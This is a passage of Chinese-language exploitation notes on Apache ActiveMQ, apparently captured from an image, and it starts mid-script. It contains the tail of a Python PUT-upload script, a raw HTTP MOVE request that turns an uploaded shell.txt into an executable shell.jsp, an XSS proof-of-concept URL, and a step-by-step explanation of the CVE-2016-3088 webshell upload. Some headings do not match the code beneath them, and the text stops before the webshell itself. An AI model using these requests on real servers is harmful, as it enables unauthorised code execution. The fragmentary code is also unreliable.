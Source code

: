 ```
%>
'''
response = requests.put(url,headers=headers,data=payload)


status = response.status_code
if status == "204":
    print "PUT success!"
else:
    print "False,please again!"
```

### 源代码泄露

```
MOVE /fileserver/shell.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/shell.jsp
Host: 192.168.0.11:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

### XSS 漏洞

看这个 POC 应该是需要进入后台才可以利用的。

```
http://192.168.0.11:8161/admin/browse.jsp?JMSDestination=event
```

### 远程代码执行漏洞

CVE-2016-3088                                                                                                                      

ActiveMQ 的 web 控制台分三个应用 ，admin，api 和 fileserver，其中 admin  是管 理 员 页 面  api 是 接 口，fileserver 是 储 存 文 件 的接 口；admin 和 api 都需要登录后才能使用，fileserver 无需登录。fileserver 是一个 RESTful API 接口，我们可以通过 GET、PUT、DELETE 等 HTTP 请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷。在 5.12.x~5.13.x 版本中，已经默认关闭了 fileserver 这个应用（你可以 conf/jetty.xml 中开启之）；在 5.14.0 版本以后，彻底删除了 fileserver 应用。

漏洞原理：ActiveMQ 中的 FileServer 服务允许用户通过 HTTP PUT 方法上传文件到指定目录，构造 PUT 请求上传 webshell 到 fileserver 目录，然后通过 Move 方法将其移动到有执行权限的 admin/ 目录。

漏洞影响：Apache ActiveMQ 5.x ~ 5.14.0

漏洞利用流程

1、PUT 上传

2、获取绝对路径

3、移动文件到 admin 目录或者 api 目录下，登录访问 webshell

PUT 上次 Webshell 代码
